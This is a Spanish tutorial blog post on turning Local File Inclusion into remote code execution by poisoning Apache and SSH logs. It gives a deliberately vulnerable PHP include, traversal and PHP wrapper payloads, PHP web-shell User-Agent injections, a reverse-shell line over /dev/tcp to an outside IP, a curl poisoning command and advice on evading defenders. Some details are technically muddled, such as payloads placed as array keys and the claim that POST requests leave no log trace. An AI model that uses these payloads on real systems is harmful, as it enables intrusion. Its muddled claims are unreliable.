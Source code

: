 ```yaml
---
title:  "De LFI a RCE - Log Poisoning (SSH, Apache logs)"
header:
  teaser: ""
categories: 
  - Vulnerabilities
tags:
  - LFI
  - RCE
---
```


---
title: "De LFI a RCE - Log Poisoning (SSH, Apache logs)"
layout: single
excerpt: Antes de empezar explicando como conseguir RCE explotando una vulnerabilidad de Inclusión de archivos locales, primero necesitamos saber que es y como funciona. 
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png"
categories:
  - Vulnerabilities
tags:
  - LFI
  - RCE
---

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png">
</p>

Antes de empezar explicando como conseguir RCE explotando una vulnerabilidad de Inclusión de archivos locales, primero necesitamos saber que es y como funciona.
“Local File Inclusion” es una vulnerabilidad que te permite incluir archivos locales a un servidor a causa de una mala programación en cuanto a “back-end”, esta vulnerabilidad está presente en PHP, JSP, ASP entre otros.

## Explotación de la vulnerabilidad

Imaginemos que tenemos este código en un archivo PHP.

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("$file"); 
   } 
?>
```

Este código es vulnerable a LFI porque estamos declarando el parámetro “file” sin ningún tipo de sanitización, por lo tanto nos permitiría incluir archivos en el servidor.

**Petición Legítima:**

```php
http://192.168.1.144/test.php?file=contact.php
```

**Petición malintencionada:**

```php
http://192.168.1.144/test.php?file=/etc/hosts
```

Como vemos en la segunda petición que tramitamos al servidor web es diferente a la primera, en la segunda estamos explotando un LFI en toda regla, por lo que la respuesta de parte del servidor es un 200 OK, es decir el recurso solicitado existe, en este caso nos devolvería el contenido del archivo “/etc/hosts”.

Hay programadores que reconocen este tipo de vulnerabilidad web e intentan sanitizar el código de alguna manera:

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("lib/functions/$file");
   }
?>
```

Aquí solo seria cuestión de hacer un “Directory Path Traversal”, es decir volver directorios atrás para apuntar al recurso solicitado “../../etc/hosts”. Cabe decir que este ejemplo es simple, se puede complicar mucho más.

## Wrapper
Un "**Wrapper**" en LFI es una envoltura que incorpora PHP, se introduce en la URL al tramitar la petición al servidor legítimo. Hay distintos tipos de "**Wrappers**" y cada uno para una función en específico, los más comunes son:

```php
expect://: http://192.168.1.144/test.php?file=expect://whoami
filter://: http://192.168.1.144/test.php?file=php://filter/convert.base64-encode/resource=test.php
data://: http://192.168.1.144/test.php?file=data:text/plain;,<?php echo shell_exec($_GET[‘cmd’]);?>
``` 

## ¿Cómo conseguir RCE de un LFI?

Se puede conseguir "**Remote Code Execution**" de distintas formas, pero aquí solo explicaré unas cuantas. En LFI hay una técnica para conseguir RCE llamada "**Log Poisoning**", consiste en envenenarlos .log de Apache o SSH.

Los logs son archivos que dejan registro de lo que haces, un ejemplo seria cuando accedes al servidor web, lo que haces es verificar si el recurso que solicitas existe y eso lo haces mediante una petición de tipo GET, pues eso se queda registrado en estos archivos, cada servicio tiene su propio archivo .log, en este caso nos centraremos solo en Apache y SSH.

Te estarás preguntando ¿Cómo concateno un LFI con un “Log Poisoning”?

**Buena pregunta!!!**, pues es más sencillo de lo que parece. Primero debemos saber cuál es la ruta de estos logs, el archivo de logs de Apache se sitúa en ```/var/log/apache2/access.log``` y el de SSH ```/var/log/auth.log```, le damos permiso de lectura y escritura a la carpeta de los logs de Apache con ```chmod 755/var/log/apache2``` y ```chmod 755 /var/log/auth.log``` para el archivo de los logs de SSH para que podamos visualizar su contenido.
Bien, tenemos medio trabajo hecho, ahora solo faltaría envenenar estos logs, lo que tendríamos que hacer es tramitar una petición a la ruta donde se encuentran los logs y cambiar el “**UserAgent**”, vamos a utilizar “**BurpSuite**” para hacerlo, también se puede utilizar “**Curl**” para más rapidez. Usaré “**BurpSuite**” para ver como se comporta la petición por detrás y sea más claro.

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226068-c09dd300-c246-11eb-9300-198cce165d89.png">
</p>

Como vemos en la foto anterior hemos interceptado la petición con “**BurpSuite**”, ahora la mandamos al “**Repeater**” para modificarla a nuestra manera, cambiamos el “**User-Agent**” y ponemos nuestras sentencias maliciosas en *PHP*:

```php 
<?php system($_GET['sh >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_GET['cmd']); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226156-efb44480-c246-11eb-8e66-0cea44ec83e8.png">
</p>

Enviamos la petición maliciosa al servidor y…

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226181-ffcc2400-c246-11eb-898c-0b9348b621f5.png">
</p>

Lo malo aquí es que las peticiones se emiten por tipo GET, esto quiere decir que se verían reflejadas en los logs y sería muy fácil para el “**Blue-Team**” pillar-nos, para ponérselos más difícil lo ideal seria cambiar el tipo de petición a POST o REQUEST.

```php
<?php system($_REQUEST['bash >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_POST['cmd']); ?>
```

Utilizando “**Curl**” sería algo un poco más complejo de entender, pero nada del otro mundo:

```php 
~$ curl -s -X REQUEST -A "<?php system($_REQUEST['whoami']); ?>" "http://192.168.1.144/test.php?file=/var/log/apache2/access.log"
```

Lo que estamos haciendo es enviar una petición por REQUEST para que no se vea reflejada en él *.log* y en modo “**silent**” para no ver la respuesta de lado del servidor, el parámetro “**-A**” es para modificar el “**UserAgent**” a nuestra manera y por último le especifico a que URL quiero enviarla.
Para envenenar los logs de SSH es aún más sencillo, en vez de poner un “**user**” en el campo correspondiente para la conexión con SSH, ponemos la sentencia maliciosa de *PHP* entre comillas simples seguida de una arroba y la IP del sistema.

```php
<?php system(‘whoami’); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226346-4b7ecd80-c247-11eb-817b-8eef893fd0d0.png">
</p>
